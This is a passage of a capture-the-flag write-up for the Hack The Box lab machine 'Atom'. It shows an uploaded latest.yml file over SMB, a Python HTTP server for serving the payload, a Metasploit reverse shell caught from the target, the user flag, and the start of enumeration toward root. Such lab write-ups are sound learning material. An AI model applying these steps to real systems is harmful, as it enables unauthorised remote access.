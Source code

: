 Create web server using python:
```console
┌─[evyatar@parrot]─[/hackthebox/Atom]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ..
```

Upload the ```latest.yml``` file using ```smbclient```:
```console
smb: \> cd 
smb: \client1\> put latest.yml
putting file latest.yml as \client1\latest.yml (0.9 kb/s) (average 0.6 kb/s)
```

Wait few seconds and we pop a shell:
```console
msf6 exploit(multi/handler) > [*] Command shell session 1 opened (10.10.14.14:5555 -> 10.10.10.237:51603) at 2021-05-07 02:15:01 +0300
msf6 exploit(multi/handler) > sessions -i 1
C:\WINDOWS\system32>whoami
whoami
atom\jason
C:\WINDOWS\system32> cd c:\Users\jason\Desktop
c:\Users\jason\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9793-C2E6

 Directory of c:\Users\jason\Desktop

04/02/2021  10:29 PM    <DIR>          .
04/02/2021  10:29 PM    <DIR>          ..
03/31/2021  02:09 AM             2,353 heedv1.lnk
03/31/2021  02:09 AM             2,353 heedv2.lnk
03/31/2021  02:09 AM             2,353 heedv3.lnk
05/06/2021  03:19 PM                34 user.txt
               4 File(s)          7,093 bytes
               2 Dir(s)   5,598,052,352 bytes free

c:\Users\jason\Desktop>type user.txt
type user.txt
f02e91f70bd698aa8e74e075ae9ba2f0

```

And we get the user flag ```f02e91f70bd698aa8e74e075ae9ba2f0```.

### Root

By enumerate the user folder we can see on ```Downloads``` the following directory:
```console
c:\Users>dir c:\users\jason\downloads\PortableKanban\
dir c:\users\jason\downloads\PortableKanban\
 Volume in drive C has no label.
 Volume Serial Number is 9793-C2E6

 Directory of c:\users\jason\downloads\PortableKanban

04/02/2021  08:21 PM    <DIR>          .
04/02/2021  08:21 PM    <DIR>          ..
02/27/2013  08:06 AM            58,368 CommandLine.dll
11/08/2017  01:52 PM           141,312 CsvHelper.dll
06/22/2016  09:31 PM           456,704 DotNetZip.dll
04/02/2021  07:44 AM    <DIR>          Files
11/23/2017  04:29 PM            23,040 Itenso.Rtf.Converter.Html.dll
11/23/2017  04:29 PM            75,776 Itenso.Rtf.Interpreter.dll
```